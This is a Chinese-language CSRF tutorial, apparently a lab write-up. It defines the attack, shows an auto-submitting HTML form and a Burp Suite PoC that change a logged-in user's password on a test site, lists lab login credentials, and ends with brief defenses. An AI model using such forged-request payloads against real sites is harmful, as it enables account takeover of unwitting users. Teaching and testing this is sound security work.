


CSRF定义： 跨站请求伪造（英语：Cross-site request forgery），也被称为 one-click attack 或者 session riding，通常缩写为 CSRF ， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。

简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

## 1、修改密码

登录信息：
user：csrf
passwd：a123456a

```http
http://www.webtester.com/csrf/csrf01.php?c=main
```

 

**登录过的网站** 访问post-csrf.html就会触发payload 从而修改密码。

post-csrf.html

```html
<html> 
	<body>
	<form name="csrf" action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
		<input type=text name=password value="moonteams"></input>
		<input type="submit" value="submit" />
	</form>
	<script>
 		document.csrf.submit();
	</script>
	</body>
</html>
```

访问http://www.demo.com/post-csrf.html 就会修改密码

**2、测试方法**

用burpsuite生成csrf payload 

 

csrf.html

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.webtester.com/csrf/csrf01.php?c=update" method="POST">
      <input type="hidden" name="password" value="a123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

**3、防御方法** 

加上token 进行认证

判断页面来源

页面加验证码判断